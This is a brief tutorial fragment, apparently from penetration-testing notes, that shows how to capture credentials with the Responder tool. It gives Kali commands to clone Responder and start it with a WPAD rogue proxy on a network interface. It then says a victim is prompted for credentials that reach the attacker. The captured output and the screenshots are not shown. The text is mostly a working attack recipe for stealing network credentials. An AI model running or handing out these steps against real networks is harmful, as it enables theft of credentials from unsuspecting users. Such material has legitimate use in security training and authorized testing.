


Responder: capture credentials
1. From the Attacker machine(Linux)
root@kali:/# git clone https://github.com/SpiderLabs/Responder.git
root@kali:/# cd Responder
root@kali:/# python Responder.py -I eth0 -wFb
-w, --wpad → Start the WPAD rogue proxy server. Default value is False
2. At the first connection to Internet from powerOn at the victim will be asked to insert its credentials
 And this will be what we receive from the Responder of the Attacker
